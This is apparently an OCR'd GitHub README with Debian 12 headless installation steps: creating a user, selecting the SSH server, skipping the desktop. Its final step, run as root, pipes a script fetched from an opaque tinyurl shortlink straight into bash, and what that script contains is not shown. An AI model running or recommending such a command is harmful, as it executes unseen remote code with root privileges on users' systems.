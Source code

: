 # Debian 12 - Installation and Initial Setup (No GUI)

## 1. Install Debian 12

Download the official Debian 12 ISO from:  
👉 https://www.debian.org/distrib/

During installation:
👤 When prompted to create a user, enter:

```text
Username: stra
```

✅ Select:
- **Standard system utilities**
- **SSH server**

❌ Do **not** select:
- **Desktop Environment** (no GUI)

> ⚠️ This will result in a minimal, lightweight installation—ideal for servers or headless environments.

## 2. Log in as root

After rebooting the system, log in with:

```bash
Username: root
Password: [your root password]

wget --no-cache -qO- https://tinyurl.com/y2y5b6x7 | bash
```
